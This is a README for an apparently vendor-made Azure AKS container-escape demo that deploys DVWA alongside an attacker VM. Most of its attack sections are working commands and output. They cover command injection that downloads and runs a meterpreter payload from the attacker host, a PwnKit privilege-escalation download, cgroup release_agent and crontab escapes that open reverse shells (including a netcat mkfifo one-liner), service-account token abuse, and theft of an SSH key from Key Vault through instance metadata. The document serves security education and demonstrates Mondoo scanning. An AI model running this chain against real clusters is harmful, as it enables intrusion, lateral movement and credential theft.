

# AKS container escape demo

DVWA is the "Damn Vulnerable Web Application" that will be used to demonstrate how a vulnerability in a container can lead to access to the host and to the cluster.

This folder contains Terraform automation code to provision the following:

- **Azure AKS Cluster** - 1 worker managed nodes (standard_d2_v2)
- **Ubuntu 18.04 Linux Instance** - This instance is provisioned for the demonstration of the container-escape demo.

<!-- @import "[TOC]" {cmd="toc" depthFrom=1 depthTo=6 orderedList=false} -->

<!-- code_chunk_output -->

- [AKS container escape demo](#aks-container-escape-demo)
  - [Prerequisites](#prerequisites)
  - [Provision the cluster](#provision-the-cluster)
  - [Connect to the cluster](#connect-to-the-cluster)
  - [Deploy Mondoo Operator to AKS](#deploy-mondoo-operator-to-aks)
    - [Deploy cert-manager](#deploy-cert-manager)
    - [Deploy Mondoo Operator](#deploy-mondoo-operator)
  - [Deploy and configure DVWA](#deploy-and-configure-dvwa)
    - [Configure Port Forwarding](#configure-port-forwarding)
    - [Login to DVWA](#login-to-dvwa)
  - [Setup Attacker Linux Instance](#setup-attacker-linux-instance)
    - [Start the container listener](#start-the-container-listener)
    - [Start the host listener](#start-the-host-listener)
    - [Start Ruby webserver](#start-ruby-webserver)
  - [Escape time](#escape-time)
    - [Escalate privileges on the container](#escalate-privileges-on-the-container)
    - [Gain access to worker nodes (Escaping the pod and getting a shell on the worker node)](#gain-access-to-worker-nodes-escaping-the-pod-and-getting-a-shell-on-the-worker-node)
    - [1. Using ServiceAccount](#1-using-serviceaccount)
    - [2. Release\_agent cgroups escape](#2-release_agent-cgroups-escape)
    - [3. Cronjob](#3-cronjob)
    - [Get keys from keyvault](#get-keys-from-keyvault)
  - [Mondoo scan commands](#mondoo-scan-commands)
    - [Scan kubernetes manifest](#scan-kubernetes-manifest)
    - [Scan container image from registry](#scan-container-image-from-registry)
    - [Scan kubernetes aks cluster](#scan-kubernetes-aks-cluster)
    - [Shell to kubernetes aks cluster](#shell-to-kubernetes-aks-cluster)
    - [Scan a azure subscription](#scan-a-azure-subscription)
    - [Shell to azure subscription](#shell-to-azure-subscription)
  - [Destroy the cluster](#destroy-the-cluster)
  - [License and Author](#license-and-author)
  - [Disclaimer](#disclaimer)

<!-- /code_chunk_output -->

## Prerequisites

- [Azure Account](https://azure.microsoft.com/en-us/free/)
- [AZ CLI](https://docs.microsoft.com/en-us/cli/azure/install-azure-cli)
- [Terraform](https://learn.hashicorp.com/tutorials/terraform/install-cli)
- [`kubectl`]() - Kubectl must be installed on the host that you run `terraform` from.

## Provision the cluster

1. Clone the project

```bash title="Clone the project"
git clone git@github.com:Lunalectric/container-escape.git
```

2. cd into the terraform folder

```bash
cd container-escape/azure
```

3. Initialize the project (download modules)

```bash
terraform init
```

4. Check that everything is ready

```bash
terraform plan
```

5. Apply the configuration

```bash
terraform apply -auto-approve
```

Once the provisioning completes you will see something like this:

```bash
Apply complete! Resources: 14 added, 0 changed, 0 destroyed.

Outputs:

public_ip_address = "13.92.179.31"
resource_group_name = "rg-Lunalectric-container-escape"
summary = <<EOT

attacker vm public ip: 13.92.179.31

terraform output -raw tls_private_key > id_rsa
ssh -o StrictHostKeyChecking=no -i id_rsa azureuser@13.92.179.31

export KUBECONFIG="\$\{PWD}/aks-kubeconfig"
kubectl apply -f dvwa-deployment.yml
kubectl port-forward $(kubectl get pods -o name) 8080:80


Hacking commands:

dvwa-browser---------------

;curl -vk http://13.92.179.31:8001/met-container -o /tmp/met
;chmod 777 /tmp/met
;/tmp/met

privilege-escalation-------

cd /tmp
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
chmod a+x ./priv-es
./priv-es

container-escape-----------

mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://13.92.179.31:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

EOT
tls_private_key = <sensitive>
```

## Connect to the cluster

After Terraform finishes provisioning, you find your `aks-kubeconfig` Kubeconfig in the folder to connect to your AKS cluster:

Configure kubectl to use the aks-kubeconfig to connect to your AKS cluster

```bash
export KUBECONFIG="${PWD}/aks-kubeconfig"
```

```bash
kubectl get nodes
NAME                              STATUS   ROLES   AGE   VERSION
aks-default-41472297-vmss000000   Ready    agent   24m   v1.22.11
aks-default-41472297-vmss000001   Ready    agent   24m   v1.22.11
```

## Deploy Mondoo Operator to AKS

Deploy the Mondoo Operator to the AKS cluster according the manual [https://mondoo.com/docs/platform/cloud/kubernetes/scan-kubernetes-with-operator/](https://mondoo.com/docs/platform/cloud/kubernetes/scan-kubernetes-with-operator/)

### Deploy cert-manager

At first deploy the cert-manager from [https://cert-manager.io/docs/installation/](https://cert-manager.io/docs/installation/):

```bash
kubectl apply -f https://github.com/cert-manager/cert-manager/releases/download/v1.11.0/cert-manager.yaml
```

### Deploy Mondoo Operator

Create a Kubernetes Integration in the Mondoo Dashboard [https://console.mondoo.com/](https://console.mondoo.com/).


Copy and paste the install commands from the Mondoo Dashboard to deploy the Mondoo Operator



## Deploy and configure DVWA

Deploy the DVWA application to your AKS cluster.

```bash
kubectl apply -f ../assets/dvwa-deployment.yml
deployment.apps/dvwa-container-escape created
```

Check if the deployment and pod is working.

```bash
kubectl get deployments
NAME                    READY   UP-TO-DATE   AVAILABLE   AGE
dvwa-container-escape   1/1     1            1           47s
```

```bash
kubectl describe pods
Name:         dvwa-container-escape-5576f8b947-cv7tv
Namespace:    default
Priority:     0
Node:         aks-default-27813111-vmss000000/10.224.0.4
Start Time:   Mon, 15 Aug 2022 19:42:30 +0200
Labels:       app=dvwa-container-escape
              pod-template-hash=5576f8b947
Annotations:  <none>
Status:       Running
IP:           10.244.0.6
IPs:
  IP:           10.244.0.6
Controlled By:  ReplicaSet/dvwa-container-escape-5576f8b947
Containers:
  dvwa:
    Container ID:   containerd://1c0239ca76d10dd88a04eecdfd134835f594f0bc5ec143314b833263ae54db60
    Image:          public.ecr.aws/x6s5a8t7/dvwa:latest
    Image ID:       public.ecr.aws/x6s5a8t7/dvwa@sha256:8791eab52f1481d10e06bcd8a40188456ea3e5e4760e2f1407563c1e62e251f3
    Port:           80/TCP
    Host Port:      0/TCP
    State:          Running
      Started:      Mon, 15 Aug 2022 19:43:04 +0200
    Ready:          True
    Restart Count:  0
    Environment:    <none>
    Mounts:
      /var/run/secrets/kubernetes.io/serviceaccount from kube-api-access-m68hr (ro)
Conditions:
  Type              Status
  Initialized       True
  Ready             True
  ContainersReady   True
  PodScheduled      True
Volumes:
  kube-api-access-m68hr:
    Type:                    Projected (a volume that contains injected data from multiple sources)
    TokenExpirationSeconds:  3607
    ConfigMapName:           kube-root-ca.crt
    ConfigMapOptional:       <nil>
    DownwardAPI:             true
QoS Class:                   BestEffort
Node-Selectors:              <none>
Tolerations:                 node.kubernetes.io/not-ready:NoExecute op=Exists for 300s
                             node.kubernetes.io/unreachable:NoExecute op=Exists for 300s
Events:
  Type    Reason     Age   From               Message
  ----    ------     ----  ----               -------
  Normal  Scheduled  115s  default-scheduler  Successfully assigned default/dvwa-container-escape-5576f8b947-cv7tv to aks-default-27813111-vmss000000
  Normal  Pulling    114s  kubelet            Pulling image "public.ecr.aws/x6s5a8t7/dvwa:latest"
  Normal  Pulled     81s   kubelet            Successfully pulled image "public.ecr.aws/x6s5a8t7/dvwa:latest" in 32.985551672s
  Normal  Created    81s   kubelet            Created container dvwa
  Normal  Started    81s   kubelet            Started container dvwa
```

### Configure Port Forwarding

Establish a port forwarding to reach the DVWA application via your browser. Open a terminal and run the following command to start port forward to the DVWA pod on `8080`:

```bash
kubectl port-forward $(kubectl get pods -o name) 8080:80
```

### Login to DVWA


Open a browser and navigate to http://localhost:8080.

Log in to DVWA using `admin` with the password `password`.


Once logged in, select "Create / Reset Database" after which, you will be logged out. Log back in to the web application and select "Command Injection."

Next, open three command line terminals and continue the setup process.

## Setup Attacker Linux Instance

The Attacker Linux instance has all of the binaries and scripts you will need to hack the AKS deployment. Create your ssh-rsa key to access the Attacker instance:

```bash
terraform output -raw tls_private_key > id_rsa
```

Connect the to the Attacker instance via ssh command:

```bash
ssh -o StrictHostKeyChecking=no -i id_rsa azureuser@13.92.179.31
Welcome to Ubuntu 18.04.6 LTS (GNU/Linux 5.4.0-1089-azure x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Mon Aug 15 18:23:09 UTC 2022

  System load:  0.0               Processes:           108
  Usage of /:   9.2% of 28.89GB   Users logged in:     0
  Memory usage: 9%                IP address for eth0: 10.0.1.4
  Swap usage:   0%

0 updates can be applied immediately.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

azureuser@attacker:~$ sudo -i
root@attacker:~#
```

Once you have ssh'd on to the host you will find a `/root/container-escape` directory with the following files:

```bash
root@attacker:~# cd /root/container-escape/
root@attacker:~/container-escape# ls -la
total 1108
drwxr-xr-x 2 root root    4096 Aug 15 18:14 .
drwx------ 5 root root    4096 Aug 15 18:14 ..
-rwxr-xr-x 1 root root 1106792 Aug 15 18:14 met-container
-rwxr-xr-x 1 root root     207 Aug 15 18:14 met-host
-rwxr-xr-x 1 root root     129 Aug 15 18:14 msfconsole1
-rwxr-xr-x 1 root root     123 Aug 15 18:14 msfconsole2
-rwxr-xr-x 1 root root      27 Aug 15 18:14 start_ruby_webserver
```

### Start the container listener

In the first terminal, start `msfconsole` listening on port `4242` for the container:

```bash
root@attacker:~# cd /root/container-escape/

root@attacker:~/container-escape# ./msfconsole1
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/meterpreter_reverse_tcp
lhost => 0.0.0.0
lport => 4242
[*] Started reverse TCP handler on 0.0.0.0:4242
```

### Start the host listener

In the second terminal, start `msfconsole` listening on port `4243` for the host:

```bash
azureuser@attacker:~$ sudo -i

root@attacker:~# cd /root/container-escape/

root@attacker:~/container-escape# ./msfconsole2
[*] Using configured payload generic/shell_reverse_tcp
payload => linux/x86/shell/reverse_tcp
lhost => 0.0.0.0
lport => 4243
[*] Started reverse TCP handler on 0.0.0.0:4243
```

### Start Ruby webserver

In the third terminal, start webserver with Ruby:

```bash
azureuser@attacker:~$ sudo -i

root@attacker:~# cd /root/container-escape/

root@attacker:~/container-escape# ./start_ruby_webserver
[2022-08-15 18:28:35] INFO  WEBrick 1.4.2
[2022-08-15 18:28:35] INFO  ruby 2.5.1 (2018-03-29) [x86_64-linux-gnu]
[2022-08-15 18:28:35] INFO  WEBrick::HTTPServer#start: pid=3850 port=8001
```

## Escape time

In the webapp (browser) do the first attack to gain access to the container.

```bash
;curl -vk http://<attacker_vm_public_ip>:8001/met-container -o /tmp/met
```

Change the permissions to make the script executable

```bash
;chmod 777 /tmp/met
```

Execute the script

```bash
;/tmp/met
```

Now you have a reverse meterpreter session from the container, to get a shell type `shell`

```bash
meterpreter > shell
Process 321 created.
Channel 1 created.
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

You have a shell and are the `www-data` user.

### Escalate privileges on the container

Now you need do the privilege escalation within the container to gain root. In the terminal where the container listener and run the following commands:

```bash
cd /tmp
```

Download the `priv-es` script to `/tmp`

```bash
curl -vkO https://pwnkit.s3.amazonaws.com/priv-es
```

Make the script executable:

```bash
chmod a+x ./priv-es
```

Execute the script

```bash
./priv-es
python2.7 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

Show that you are now root on the container

```bash
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

### Gain access to worker nodes (Escaping the pod and getting a shell on the worker node)

The first check which we need to do is to make sure if the container is running in a "privileged mode" or not.

What is Container Privileged mode:

Privileged containers are containers that have all of the root capabilities of a host machine, allowing the ability to access resources which are not accessible in ordinary containers.

There are several use cases of a privileged container such as:

*Running a container daemon inside another container
*Container requires direct hardware access

However, it has huge security risks since if you are root in a container you have the privileges of root on the host system!

To test if we have a privileged access, we can do following:

a. make sure we are inside the container

```bash
cat /proc/1/cgroup
```

In the outcome we can see the containerd which shows we are in a container (containerd in this case).

b. To check is if we are in a privileged container, we can check if we have access to a lot of devices.

```bash
fdisk -l
````

```bash
ls /dev/
````

There are several ways of escaping the container and land in the worker node which some of them might not work as kubernetes orchestration is keep updating in Azure. Here, we are trying three ways, which two of them is not working anymore in the new Kubernetes version (latest version deployed by terraform starting from May 2023):

### 1. Using ServiceAccount

When Pods contact the API server, Pods authenticate as a particular ServiceAccount (for example, default). There is always at least one ServiceAccount in each namespace. Every Kubernetes namespace contains at least one ServiceAccount: the default ServiceAccount for that namespace, named default. If you do not specify a ServiceAccount when you create a Pod, Kubernetes automatically assigns the ServiceAccount named default in that namespace.

By default, the containers in the Kubernetes cluster stores service account token within their file system. If an attacker could find that token, he might be able to move laterally depending one the privilege of the service account. So, here we need to find first the Token and related objects and then check if the serviceAccount has the privileges like Creating another pods for us!

The location of the token inside the pod is normally in the following pod:

```bash
cat /var/run/secrets/kubernetes.io/serviceaccount/token
```

If there is a need, we can decode the token from https://jwt.io/!

So if we are able to gain access to the ServiceAccount Token, we can perform some authenticated Kubernetes API enumeration.

```bash
APISERVER=https://kubernetes.default.svc
SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
TOKEN=$(cat ${SERVICEACCOUNT}/token)
CACERT=${SERVICEACCOUNT}/ca.crt

curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/version
curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
curl -vk --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/apis/apps/v1
```

Our target here is to take advantage of ServiceAccount for creating a new Pod which enables us to run some commands within to get a reverse shell on our attacking system from the pod. But, before doing that, we need to make sure if we have enough permissions on the serviceAccount for doing that:

**First download the `kubectl` binary on the current pod**

```
export PATH=/tmp:$PATH; cd /tmp; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.24.12/bin/linux/amd64/kubectl; chmod 555 kubectl
```

**Second, find out the node IP via the `/etc/resolv.conf`**

```bash
cat /etc/resolv.conf
```

```
search default.svc.cluster.local svc.cluster.local cluster.local vd3wk3pfuj5unnyfkbt5fjw0bg.bx.internal.cloudapp.net
nameserver 10.0.0.10
options ndots:5
```

The local node for the nameserver `10.0.0.10` is always the `x.x.x.1` address, so in that case `10.0.0.1`

**Third, query the Node API if the service account on the pod has sufficient permissions to create a pod**

```bash
kubectl --token=`cat /run/secrets/kubernetes.io/serviceaccount/token` --certificate-authority=/run/secrets/kubernetes.io/serviceaccount/ca.crt -n `cat /run/secrets/kubernetes.io/serviceaccount/namespace` --server=https://10.0.0.1/ auth can-i create pods
```

```
no
```

So, here we don't have enough permissions and a result we cannot create a new pod from within this pod by calling the API. If we had enough permissions by getting simply 'yes' from above query, we could use following to create a pod and at the same listening on the port 4244 to get a reverse shell:

```bash
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X POST ${APISERVER}/apis/apps/v1/namespaces/default/deployments -H 'Content-Type: application/yaml' -d '---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: kali-hacker
  namespace: default
spec:
  selector:
    matchLabels:
      app: kali-hacker
  template:
    metadata:
      labels:
        app: kali-hacker
    spec:
      containers:
        - name: dvwa
          image: docker.io/kalilinux/kali-rolling
          command: ["/bin/bash","-c","/usr/bin/apt update -y && /usr/bin/apt install -y curl && /usr/bin/curl -vk http://<attacker_vm_public_ip>:8001/met-kali -o /tmp/met && /usr/bin/chmod 777 /tmp/met && /tmp/met"]
          imagePullPolicy: IfNotPresent
          ports:
            - containerPort: 80
          securityContext:
            privileged: true
      terminationGracePeriodSeconds: 30
'
```

### 2. Release_agent cgroups escape

This exploit needs a cgroup where we can create a release_agent file and trigger release_agent invocation by killing all processes in the cgroup. The easiest way to accomplish that is to mount a cgroup controller and create a child cgroup.

Here, we have tested for both RDMA and Memory cgroup controller which in both case it did not work.

```bash
mkdir -p /tmp/cgrp && mount -t cgroup -o memory cgroup /tmp/cgrp && mkdir -p /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
echo "$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /proc/mounts)/cmd" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /cmd
echo "curl -vk http://<attacker_vm_public_ip>:8001/met-host -o /tmp/met" >> /cmd
echo "chmod 777 /tmp/met" >> /cmd
echo "/tmp/met" >> /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```

We can confirm that it did not work in the new version of the Kubernetes in Azure, and most probably it should be related to the fact that cgroup exploit was mainly related to the Docker and not the containerd!

### 3. Cronjob

As mentioned previously, we have a privileged container (Running in --privileged mode) in our case which is the DVWA. Since we already have root access on this pod, we can simply mount the Node filesystem and create a cronjob which triggers and gives us a reverse shell.

First, we need to check the filesystem and mount the root filesystem of the node on the mount point:

```bash
ls -la /dev/
```

and then we can mount as follow:

```bash
mount /dev/sb1 /mnt/
echo "*/1 * * * * root curl -vk http://<attacker_vm_public_ip>:8001/met-host -o /root/met && chmod 777 /root/met && /root/met" >> /mnt/etc/crontab
```

and at the same time we should listen to the port 4243 which is through ./msfconsole2 script as has been shown previously.

It does not necessarily need to download the met-host from the Ruby webserver, as we can use other options as well for triggering the reverse shell such as:

```bash
echo "*/1 * * * * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker_vm_public_ip> 4243" >  /mnt/etc/crontab
echo "*/1 * * * * root python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_vm_public_ip>",4243)) >  /mnt/etc/crontab
...
```

After getting the reverse shell on our host, we can check if we are on worker node:

```bash
#id
uid=0(root) gid=0(root) groups=0(root)
#hostname
aks-default-38723430-vmss000000
```

### Get keys from keyvault

Get the instance metadata

```bash
curl -s -H Metadata:true --noproxy "*" 'http://169.254.169.254/metadata/instance?api-version=2021-02-01'
```

Extract the keyvault name

```text
{ "name": "keyvault", "value": "keyvaultLunalectric-akic" }
```

Get the token and query for the key:value

```text
TOKEN=$(curl -s "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https%3A%2F%2Fvault.azure.net" -H "Metadata: true" | jq -r ".access_token" ) && curl -vk -s -H Metadata:true --noproxy "*" 'https://keyvaultLunalectric-akic.vault.azure.net/secrets/private-ssh-key?api-version=2016-10-01' -H "Authorization: Bearer $TOKEN"
```

Extract the ssh private key and save it in `key-ssh`

```
----BEGIN RSA PRIVATE KEY-----\nMIIJKgIBAA
....
```

Fix the format of the ssh private key and the permissions

```bash
cat key-ssh |sed 's/\\n/\n/g' > new-ssh-key

chmod 600 new-ssh-key
```

Get the public IP of the AKS node

```bash
curl -4 icanhazip.com
```

Connect via ssh to the AKS node

```bash
ssh -o StrictHostKeyChecking=no -i new-ssh-key ubuntu@40.88.137.64
```

## Mondoo scan commands

### Scan kubernetes manifest

```bash
cnspec scan k8s --path ../assets/dvwa-deployment.yml
```

### Scan container image from registry

```bash
cnspec scan container docker.io/pmuench/dvwa-container-escape:latest
```

### Scan kubernetes aks cluster

```bash
cnspec scan k8s
```

### Shell to kubernetes aks cluster

```bash
cnspec shell k8s
```

List all of the pods and all of their settings:

```bash
k8s.pods { * }
```

Search for the dvwa pod and show `privileged: true`

```bash
k8s.pods.where( labels['app'] == /dvwa/ ) { * }
```

Use MQL to search for configuration across your cluster such as "are containers being pulled using `tags` or their image `digest`:

```bash
k8s.pods { _.containers { image containerImage { identifierType == "digest" } } }
```

You can also use a `where` clause and just turn that into a list and filter the results:

```bash
k8s.pods.where( _.containers { image containerImage { identifierType != "digest" } })
```

You can quick check the securityContext of your clusters to see if `privileged` is set to `true`:

```bash
k8s.pods { containers { name securityContext } }
```

Get the list of pods that fail:

```bash
k8s.pods.none(containers { securityContext['privileged'] == true })
```

### Scan a azure subscription

```bash
cnspec scan azure --subscription {subscriptionID}
```

### Shell to azure subscription

```bash
cnspec shell azure --subscription {subscriptionID}
```

List Azure VMs

```bash
azure.compute.vms { * }
```

Get access policies of all vaults

```bash
azure.keyvault.vaults { vaultName properties }
```

## Destroy the cluster

```bash
terraform destroy -auto-approve
```

## License and Author

- Author:: Mondoo Inc

Licensed under the Apache License, Version 2.0 (the "License");
you may not use this file except in compliance with the License.
You may obtain a copy of the License at

    http://www.apache.org/licenses/LICENSE-2.0

Unless required by applicable law or agreed to in writing, software
distributed under the License is distributed on an "AS IS" BASIS,
WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
See the License for the specific language governing permissions and
limitations under the License.

## Disclaimer

This or previous program is for Educational purpose ONLY. Do not use it without permission. The usual disclaimer applies, especially the fact that we (Mondoo Inc) is not liable for any damages caused by direct or indirect use of the information or functionality provided by these programs. The author or any Internet provider bears NO responsibility for content or misuse of these programs or any derivatives thereof. By using these programs you accept the fact that any damage (dataloss, system crash, system compromise, etc.) caused by the use of these programs is not Mondoo Inc's responsibility.
